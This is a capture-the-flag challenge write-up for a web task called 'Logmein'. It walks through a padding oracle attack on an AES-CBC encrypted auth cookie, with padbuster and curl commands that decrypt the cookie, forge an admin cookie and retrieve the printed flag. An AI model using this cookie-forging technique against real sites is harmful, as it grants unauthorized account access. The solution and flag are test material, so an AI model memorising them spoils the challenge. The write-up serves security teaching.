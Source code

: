 # Logmein

## Question Text

Pardon the shitty website design

`http://web.chal.gryphonctf.com:18703`

*Creator - PotatoDrug*

### Hint
The cookie is encrypted with AES-CBC

## Setup Guide
1. Run `./build.sh`

## Solution
View source at the index page and one of the comments contain `guest:guest` which is a valid account.

After logging in as guest we see the message 'I think the admin user has a more interesting profile', hinting that we need to become the admin user.

We are given a auth cookie which is encrypted upon logging in. If we alter with the cookie value we are given an error page, we can try using this to do a padding oracle attack.

We can see that padbuster successfully decrypted the encrypted value and the plaintext is user=guest.
```bash
➜ VAL="0kDV0sd/qVcniaQrNV1O9DjAljLexxYhHASgoRj3DH8="
➜ padbuster http://172.16.180.1:3000/profile $VAL 16 -cookies "auth=$VAL"
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=guest

[+] Decrypted value (HEX): 757365723D6775657374060606060606

[+] Decrypted value (Base64): dXNlcj1ndWVzdAYGBgYGBg==
```

Now our we just have to change that to `user=admin`
```bash
-------------------------------------------------------
➜ padbuster http://172.16.180.1:3000/profile $VAL 16 -cookies "auth=$VAL" -plaintext 'user=admin'
-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 52U10BQGKRepGlfUJwshHQAAAAAAAAAAAAAAAAAAAAA%3D
-------------------------------------------------------
```

We can get the flag if we set the encrypted value of `user=admin` as our cookie value.
```bash
➜ curl -s http://127.0.0.1:3000/profile --cookie "auth=52U10BQGKRepGlfUJwshHQAAAAAAAAAAAAAAAAAAAAA%3D" | grep -o 'GCTF{.*}'
GCTF{l34K1NG_1nF0Rm4710n_1n_Un3xP3C73d_w4YZ}
```

### Flag
`GCTF{l34K1NG_1nF0Rm4710n_1n_Un3xP3C73d_w4YZ}`

## Recommended Reads
* https://robertheaton.com/2013/07/29/padding-oracle-attack/
* https://www.youtube.com/watch?v=aH4DENMN_O4
